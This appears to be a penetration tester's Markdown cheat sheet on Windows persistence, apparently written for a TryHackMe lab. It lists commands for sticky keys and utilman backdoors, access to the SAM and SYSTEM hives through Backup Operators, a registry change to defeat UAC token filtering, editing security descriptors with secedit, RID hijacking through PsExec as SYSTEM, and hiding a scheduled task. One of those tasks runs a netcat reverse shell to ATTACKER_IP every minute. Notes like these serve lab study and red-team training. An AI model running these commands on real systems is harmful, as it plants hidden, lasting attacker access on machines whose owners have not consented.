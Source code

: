 # Windows Persistence 

tags: #persistence #backup #rdp #winrm #registry #powershell #secedit #scheduledTask 

## Backdooring files and replacing them with cmd.exe or similar
Use stickykeys or utilman.exe to plant a backdoor that can be accessed through the logon screen of windows 10

To see which groups you belong too...
```cmd
whoami /groups
```

## Backdooring with security descriptors

The Backup Operators windows group allows you to read/write any file or registry key, this access would allow you to be able to copy the content of SAM and SYSTEM registry hives, however this account would not have RDP access or WinRM access which requires membership in the Remote Desktop Users group and the Remote Management Users group

UAC will block the use of the "Backup Operators" group as a user until you run this registry key change

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

You can create a backdoor with a user where you can modify the session configuration of powershell and add your user account with full control.  This allows the modification of the settings. 

```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

To drop the security descriptors of the local machine as they are applied
```cmd
secedit /export /cfg config.inf
```

After you drop the security descriptors of the machine you can change then by adding user accounts comma separated.  Then you can re-import the privileges to modify them.  You do need to make the registry change above to bypass UAC

```cmd
secedit /import /cfg config.inf /db config.sdb
```

AND

```cmd
secedit /configure /db config.sdb /cfg config.inf
```

## RID Hijacking

Query using WMIC the current SIDs
```cmd
wmic useraccount get name,sid
```

Only the SYSTEM user can modify the RID of an account, use psexec64.exe to access the registry editor as the SYSTEM account

```cmd
PsExec64.exe -i -s regedit
```


## Task Schedule - Making the task invisible

Creates a task to run under system every 1 minute
```cmd
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

Query tasks by name
```cmd
schtasks /query /tn thm-taskbackdoor
```

If you want to hide the task, remove the security descriptor for the task in the registry.  Launch with psexec with system privileges then remove the security descriptor

```cmd
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<taskname> Registry Key SD
```





